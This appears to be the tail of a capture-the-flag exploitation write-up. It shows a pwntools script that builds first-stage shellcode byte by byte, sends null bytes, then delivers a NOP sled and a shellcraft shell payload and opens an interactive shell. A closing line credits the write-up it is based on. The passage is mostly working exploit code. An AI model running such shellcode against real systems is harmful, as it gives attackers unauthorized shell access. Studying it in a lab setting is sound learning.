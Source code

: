 ```
'''
loopSend("D6", 32)

'''
; A6
ss inc ecx ; A6 (400 times)
'''
loopSend("A6", 400)

# Send these two null byte so the target will stop scanning initial shellcode
target.send("\x00"*2)

# Make secondary shellcode
secondaryShellcode = "\x90"*1000

context = 'i386'
secondaryShellcode += asm(shellcraft.sh())

target.send(secondaryShellcode)

target.interactive()
```

I would like to say, thanks again to the person who made the writeup that this is based off of.
